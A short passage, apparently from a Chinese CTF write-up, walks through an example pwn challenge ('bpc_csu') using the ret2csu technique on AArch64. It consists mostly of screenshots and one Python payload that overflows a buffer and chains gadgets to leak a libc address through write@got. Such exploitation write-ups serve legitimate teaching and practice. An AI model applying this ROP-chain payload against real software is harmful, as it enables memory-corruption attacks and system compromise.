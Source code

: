 ### 例题 bpc\_csu

[![](assets/1700442742-41ca36490ea638c0c98f033a8f2ed7f4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183640-3133166c-8535-1.png)

‍

[![](assets/1700442742-7d1e24f7fe1e29990863bb47d01f147e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183644-33974fc2-8535-1.png)

[![](assets/1700442742-e9e4a138759fe9d3ec144d7669f31504.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183647-35c56a7c-8535-1.png)

‍

开始布置`write(1,write@got.plt,0x8)`​，来获取 libc 基址

```plain
pl = b'a'*0x88 + p64(g1) #x29  x30
pl+= p64(main) + p64(0x100000000) #其实这里写什么都无所谓，主要是起个抬栈作用
pl+= p64(0) + p64(g2) #x29   x30
pl+= p64(0) + p64(1) #x19 --0   x20 --1
pl+= p64(elf.got['write']) + p64(1) ##x21 --addr  x22 --x0
pl+= p64(elf.got['write']) + p64(0x8) #x23 --x1  x24 --x2
pl+= p64(0) +p64(main) #x29   x30
```

[![](assets/1700442742-7ffef76da3831a77c2e3fe7a5a7aeae2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183657-3b89a9b4-8535-1.png)

[![](assets/1700442742-f322a40325d883f3eb8c1a639c45f436.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183701-3df90ec4-8535-1.png)

